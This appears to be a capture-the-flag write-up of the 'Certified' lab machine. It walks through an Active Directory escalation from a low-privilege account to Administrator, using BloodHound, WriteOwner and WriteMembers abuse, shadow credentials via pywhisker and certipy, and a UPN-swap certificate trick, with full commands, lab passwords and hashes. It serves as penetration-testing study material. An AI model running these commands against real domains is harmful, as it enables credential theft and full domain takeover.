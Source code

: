 ```yaml
---
description: 'Username: judith.mader Password: judith09'
---
```


# 📦 Certified

We start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i looked at the different shares and downloaded everything:

```
nxc smb 10.129.231.186 -u judith.mader -p judith09 -M spider_plus -o DOWNLOAD_FLAG=True
```

But nothing interesting so i went and looked at rpcclient and found some usernames:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

I put this in a list and launch my bloodhound collector to get e better look of the domain:

```
bloodhound-python -u judith.mader -p 'judith09' -c All -d certified.htb -ns 10.129.231.186
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
neo4j console
#then i set creds and in another console 'bloodhound' as low level user
```

After uploading all of the jsons to bloodhound and marking judith as owned we can see she has writeowner on Managment@certified.htb

<figure><img src="../../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

While looking at the query: Shortest Paths to High Value Targets, we start to understand we have to take control of MANAGEMENT\_SVC, the path finder was also very visual on what we need to do:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://medium.com/@aslam.mahimkar/exploiting-ad-dacl-writeowner-misconfiguration-ca61fb2fcee1" %}

> **WriteOwner** permission allows attackers to change object ownership in **Active Directory**, giving them full control to manipulate or take over the object.

Since i have poor knowledge on bloodyAD for the moment i went and found a nice cheat sheet:

{% embed url="https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad" %}

* In Active Directory, the **Owner** of an object can modify its **Access Control Entries (ACEs)**.
* Now, **judith.mader** can **modify permissions** on the Management group.

Since I have `WriteOwner`, I should **take ownership** first. This allows me to **modify group permissions** and escalate privileges further:

```
bloodyAD --host 10.129.231.186 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Since I **own the group**, I should **grant myself more useful permissions**. `WriteMembers` lets me **add myself** to the Management group

```
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

Adding a user to a high-privilege group means they inherit **new permissions**. Now that I have `WriteMembers`, I can **add myself** to a powerful group. This could give me access to **sensitive accounts or systems**.

```
bloodyAD --host 10.129.231.186 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

Now that i am in the group of management\_svc, I need **persistent access** to an **elevated account**. `management_svc` might have **high privileges**, so I use **PyWhisker** to gain access **without needing a password**.

**KeyCredentialLink** is an attribute used for **Azure AD and certificate-based authentication**. **Abusing it allows adding a rogue certificate** to an account (without needing its password). This lets the attacker **authenticate as that user** without triggering password resets or alerts.

{% embed url="https://podalirius.net/fr/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/" %}

{% embed url="https://github.com/ShutdownRepo/pywhisker/" %}

<figure><img src="../../../.gitbook/assets/image (8) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

We can see that _A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools to &#x67;_&#x65;nerate a **Kerberos Ticket Granting Ticket (TGT)** for `management_svc`

{% embed url="https://github.com/dirkjanm/PKINITtools/tree/master" %}

**PKINIT (Public Key Cryptography for Initial Authentication)** allows authentication via **certificates** instead of passwords. Since we added our rogue certificate, we can now **request a TGT as `management_svc`**

Ok so i had a hard time using this tool so i switched to certipy using this documentation:

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate" %}

> Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file

```
certipy cert -export -pfx p9YNJGan.pfx -password "VInZMo11EzVwyq17abYg" -out "unprotected.pfx"
sudo ntpdate -u 10.129.231.186
certipy auth -pfx unprotected.pfx -dc-ip 10.129.231.186 -username 'management_svc' -domain 'certified.htb'
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (2).png" alt=""><figcaption></figcaption></figure>

Just to be sure this works:

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

So we look at what we can control and we see we have generic all on CA\_OPERATOR user:

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Ok so i tried this command:

```
bloodyAD -u "management_svc" -h "a091c1832bcdd4677c28b5a6a1295584" -d "certified.htb" --host "10.129.231.186" set password --target "ca_operator" --new-password "Password1"
```

But from what i see, bloody ad does not take hashes, but it takes certificates so maybe i can craft a cert for ca\_operator ->

```
certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption><p>ca_operator:b4b86f45c6018f1b664f70805f45d8f2</p></figcaption></figure>

Now i saw this trick of Updating the UPN of the user to change it to admin, the `UserPrincipalName (UPN)` of `ca_operator` is changed to `administrator`. this tricks the **Certificate Authority (CA)** into issuing a certificate for `administrator` instead of `ca_operator`.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

```
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186 -pfx administrator.pfx
```

This gets a cert for `Administrator` thanks to the UPN change.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

But when i try to auth i get an error and i have no idea why

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After talking for a bit witg a friend about my situation i learned that i needed to restore ca\_operator’s UPN and after doing that i was able to use administrator.pfx to request for a TGT and get a Hash:

<figure><img src="../../../.gitbook/assets/image (5) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>
